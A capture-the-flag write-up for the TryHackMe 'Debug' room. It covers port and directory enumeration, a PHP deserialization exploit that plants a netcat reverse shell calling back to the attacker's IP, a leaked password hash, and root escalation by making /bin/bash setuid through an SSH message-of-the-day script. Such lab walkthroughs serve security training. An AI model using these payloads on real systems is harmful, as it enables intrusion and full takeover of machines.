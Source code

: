```yaml
---
title: Debug
layout: post
author: Bit Criminals Team
date: 2021-06-11 12:07:00 +0530
type: Pentesting
difficulty: Medium
prompt: https://tryhackme.com/room/debug
---
```


First, connect to TryHackMe using OpenVPN (or use the AttackBox if you prefer that)start the machine from tryhackme, wait for one minute so that the IP Address shows. Now, we are reading to do our hacking!

## TASK 1

The task is to deploy the box, which we have already done. So click on **Completed** and move on.

## TASK 2

First, let's do a basic nmap scan:
```shell
nmap -Pn -A $MACHINE_IP
```

![](/images/v1per/Debug_1.png)

So, we get 2 open ports: **Port 22 (SSH)** and **Port 80 (HTTP)**

We can see that there's a web-server open, so let's visit the website.
**http://$MACHINE_IP:80**

![](/images/v1per/Debug_2.png)

It's an Apache2 Ubuntu Default page. Nothing much in here. Let's run gobuster in directory busting mode to find some hidden directories.

```shell
gobuster dir -u $MACHINE_IP -w /usr/share/wordlists/dirb/common.txt -z -x html,txt,php
```

![](/images/v1per/Debug_3.png)

We find a **/backup** directory. Let's visit it: **http://$MACHINE_IP:80/backup**

![](/images/v1per/Debug_4.png)

The file which stands out here is the **index.php.bak** (backup files always contain something fishy). Let's download it and see it's contents.
This part stood out:

![](/images/v1per/Debug_5.png)

So, our best guess at this moment is a PHP Deserialization attack. 
Note that we also found a **/index.php** from gobuster. Visiting it, we see a Form Submit area. 

![](/images/v1per/Debug_6.png)

Filling it with arbitrary values and submitting it, we see that it gets displayed in **http://$MACHINE_IP:80/message.txt**, which is what the PHP file we found is doing. I wrote this PHP code for the attack (replace $your_tun0_IP with, well, what it says):

```php
<?php
class FormSubmit{
        public $form_file = 'lol.php';
        public $message = '<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $your_tun0_IP 1234 >/tmp/f"); ?>';
}
$obj = new FormSubmit();
echo urlencode(serialize($obj));
?>
```

Now, run the PHP file using:
```shell
php <your_php_file.php>
```

![](/images/v1per/Debug_7.png)

Copy this output, and run the following command to upload our payload:
```shell
curl -i http://$MACHINE_IP:80/index.php?debug=<copied_text>
```
or just visit the following website:
**http://$MACHINE_IP:80/index.php?debug=<copied_text>**

![](/images/v1per/Debug_8.png)

Now, let's set up a netcat listener on our terminal:
```shell
nc -lnvp 1234
```
and navigate to **http://$MACHINE_IP:80/lol.php**.
And YAY! We have got our shell!

![](/images/v1per/Debug_9.png)

On displaying the contents of .htpasswd we find the hash of user james.

```                          
james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1 
```
Now we can ssh into the box as user james and get the user flag.

We find a note left to james in /home/james directory.

```s
james@osboxes:~$ cat Note-To-James.txt                         
Dear James,                                                                
                                                                                                                                                      
As you may already know, we are soon planning to submit this machine to THM's CyberSecurity Platform! Crazy... Isn't it? 
                                                                           
But there's still one thing I'd like you to do, before the submission.
                                     
Could you please make our ssh welcome message a bit more pretty... you know... something beautiful :D                                                 

I gave you access to modify all these files :) 

Oh and one last thing... You gotta hurry up! We don't have much time left until the submission!

Best Regards,

root
```
On looking at the bash history we find this file /etc/update-motd.d/00-header so we try to see what it does.
We edit the file and add the following line to the top of the file contents:
```
chmod +s /bin/bash
```
Now we have to keep in mind that the files are executed when the user logs in via SSH, as is evident from the note left to james.
So we open another terminal and SSH as user james.
After this we can just execute the command:
```
/bin/bash -p
```
and we have escalated out privileges to root. Now we can go to the root directory and print the contents of root.txt.

